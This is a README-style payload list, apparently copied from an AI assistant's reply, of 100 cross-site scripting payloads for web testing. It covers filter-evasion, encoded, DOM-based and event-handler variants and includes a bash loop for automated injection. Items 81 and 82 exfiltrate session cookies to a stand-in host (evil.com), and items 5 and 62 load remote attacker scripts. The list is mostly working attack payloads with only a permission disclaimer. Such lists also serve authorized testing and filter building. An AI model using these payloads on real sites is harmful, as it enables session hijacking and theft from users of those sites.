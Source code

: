 # XSS_payloads-
Below is a list of 100 critical XSS (Cross-Site Scripting) payloads that can be used to test web applications for vulnerabilities. These payloads cover a range of techniques—reflected, stored, and DOM-based XSS—targeting different contexts (HTML, attributes, JavaScript, etc.) and bypassing common filters. They’re designed to help identify weaknesses, but **use them only on systems you own or have explicit permission to test**, as unauthorized testing is illegal.

---

### Notes Before Using
- **Context Matters**: Payloads work differently depending on where they’re injected (e.g., HTML body, attribute, JavaScript string). Test in multiple input points.
- **Filters**: Some payloads bypass basic filters (e.g., blocking `<script>`); adapt them based on the target’s sanitization.
- **Tools**: Pair these with tools like Burp Suite or the `xss_scanner.sh` script from earlier for automated testing.

---

### 100 Critical XSS Payloads

#### Basic Payloads
1. `<script>alert('xss')</script>`
2. `<script>alert(1)</script>`
3. `<script>alert(document.cookie)</script>`
4. `"><script>alert('xss')</script>`
5. `<script src="http://evil.com/xss.js"></script>`

#### HTML Tag Variations
6. `<img src="x" onerror="alert('xss')">`
7. `<img src=javascript:alert('xss')>`
8. `<iframe src="javascript:alert('xss')"></iframe>`
9. `<svg onload="alert('xss')">`
10. `<body onload=alert('xss')>`
11. `<div onmouseover="alert('xss')">Hover me</div>`
12. `<input type="image" src="x" onerror="alert('xss')">`
13. `<link rel="stylesheet" href="javascript:alert('xss')">`
14. `<object data="javascript:alert('xss')">`
15. `<embed src="javascript:alert('xss')">`

#### Encoded Payloads
16. `%3Cscript%3Ealert('xss')%3C/script%3E` (URL-encoded `<script>`)
17. `&#x3C;script&#x3E;alert('xss')&#x3C;/script&#x3E;` (HTML entity)
18. `\x3Cscript\x3Ealert('xss')\x3C/script\x3E` (Hex escape)
19. `%253Cscript%253Ealert('xss')%253C/script%253E` (Double URL-encoded)
20. `<scr%ipt>alert('xss')</scr%ipt>` (Percent-encoded bypass)

#### Attribute-Based Payloads
21. `" onfocus="alert('xss')" autofocus`
22. `" onload="alert('xss')`
23. `" onclick="alert('xss')`
24. `" onmouseover="alert('xss')`
25. `<input value="xss" onblur="alert(this.value)">`
26. `<a href="javascript:alert('xss')">Click</a>`
27. `<img src="x" alt="x" onerror="alert('xss')">`
28. `<div style="xss:expr/*XSS*/ession(alert('xss'))">` (Old IE bypass)
29. `<input type="text" value="`"><script>alert('xss')</script>`">`
30. `<base href="javascript:alert('xss')//">`

#### JavaScript Context Payloads
31. `';alert('xss');//`
32. `";alert('xss');//`
33. `javascript:alert('xss')`
34. `eval('alert("xss")')`
35. `setTimeout("alert('xss')",1000)`
36. `Function('alert("xss")')()`
37. `new Function('alert("xss")')()`
38. `window.location='javascript:alert("xss")'`
39. `document.write('<script>alert("xss")</script>')`
40. `this['alert']('xss')`

#### Filter Evasion
41. `<scr<script>ipt>alert('xss')</scr</script>ipt>` (Nested tag bypass)
42. `<SCRIPT>alert('xss')</SCRIPT>` (Case variation)
43. `<sCrIpT>alert('xss')</ScRiPt>` (Mixed case)
44. `<<script>alert('xss');//<</script>` (Double tag)
45. `<script>alert('xss');</script` (Unclosed tag)
46. `<script>alert('xss')</script foo="bar">` (Extra attributes)
47. `<svg><script>alert('xss')</script></svg>`
48. `<script>/*comment*/alert('xss');</script>`
49. `<script defer>alert('xss')</script>`
50. `<script async>alert('xss')</script>`

#### Event Handlers
51. `<body onresize="alert('xss')">`
52. `<img src="x" onabort="alert('xss')">`
53. `<video src="x" onerror="alert('xss')">`
54. `<audio src="x" onended="alert('xss')">`
55. `<form onsubmit="alert('xss')">`
56. `<select onchange="alert('xss')">`
57. `<textarea onfocus="alert('xss')">`
58. `<button onclick="alert('xss')">Click</button>`
59. `<marquee onstart="alert('xss')">`
60. `<details ontoggle="alert('xss')">`

#### Advanced Payloads
61. `<meta http-equiv="refresh" content="0;url=javascript:alert('xss')">`
62. `<script src=//evil.com/xss.js></script>` (Protocol-relative URL)
63. `<img/src="x"/onerror=alert('xss')>` (No spaces)
64. `"><svg/onload=alert('xss')>`
65. `<math><maction actiontype="statusline#javascript:alert('xss')">Click</maction></math>`
66. `<isindex type=image src=1 onerror=alert('xss')>`
67. `<template><script>alert('xss')</script></template>`
68. `<noscript><script>alert('xss')</script></noscript>`
69. `<frameset><frame src="javascript:alert('xss')"></frameset>`
70. `<table background="javascript:alert('xss')">`

#### DOM-Based XSS
71. `location='javascript:alert("xss")'`
72. `window.name='alert("xss")';eval(window.name)`
73. `document.location.hash='javascript:alert("xss")'`
74. `history.pushState('','',`#<script>alert('xss')</script>`)`
75. `location.href='javascript:alert("xss")'`
76. `top["al"+"ert"]('xss')`
77. `self['alert']('xss')`
78. `parent.alert('xss')`
79. `opener.alert('xss')`
80. `document.cookie='xss='+alert('xss')`

#### Stealth Payloads
81. `<script>new Image().src='http://evil.com/log?'+document.cookie;</script>` (Cookie theft)
82. `<img src="x" onerror="fetch('http://evil.com/log?'+document.cookie)">`
83. `<script>window.onerror=alert;throw 'xss';</script>`
84. `<form action="javascript:alert('xss')"><input type=submit>`
85. `<input type="image" formaction="javascript:alert('xss')">`
86. `<script>console.log('xss');alert('xss');</script>` (Silent logging)
87. `<svg><animate onbegin="alert('xss')">`
88. `<keygen onerror="alert('xss')">`
89. `<bgsound src="x" onerror="alert('xss')">`
90. `<blink onload="alert('xss')">`

#### Miscellaneous
91. `data:text/html,<script>alert('xss')</script>`
92. `<script>alert(String.fromCharCode(88,83,83))</script>` (XSS in char codes)
93. `<script>alert(/xss/.source)</script>`
94. `<script>{alert('xss')}</script>`
95. `<script>eval(atob('YWxlcnQoJ3hzcycp'))</script>` (Base64: `alert('xss')`)
96. `<script>alert.call(null,'xss')</script>`
97. `<script>alert.apply(null,['xss'])</script>`
98. `<meta charset="x" content="text/html" onload="alert('xss')">`
99. `<script>Function("alert('xss')")()</script>`
100. `<script>setInterval("alert('xss')",1000)</script>` (Persistent alert)

---

### How to Use These Payloads
1. **Manual Testing**: Inject each payload into forms, URL parameters, headers, or search fields and check if it executes (e.g., an alert pops up).
2. **Automation**: Modify the `xss_scanner.sh` script to loop through these payloads:
   ```bash
   PAYLOADS=("payload1" "payload2" ...)
   for payload in "${PAYLOADS[@]}"; do
       test_url="${url}?q=${payload}"
       curl -s "$test_url" | grep -q "$payload" && echo "XSS Found: $payload"
   done
   ```
3. **Burp Suite**: Import the list into the Intruder tool for systematic testing.

---

### Tips for Effectiveness
- **Escape Special Characters**: URL-encode (`%3C` for `<`) or HTML-encode (`&#x3C;`) if filters block raw tags.
- **Combine Techniques**: Chain payloads (e.g., `<img src="x" onerror="alert('xss')">` with encoded versions).
- **Monitor Responses**: Look for reflections in HTML, JavaScript, or attributes, not just alerts.
- **Bypass Filters**: If `<script>` is blocked, try `<svg>`, `<img>`, or event handlers.

---

Let me know if you’d like help integrating these into a tool, testing them on a specific site (legally), or refining the list further!
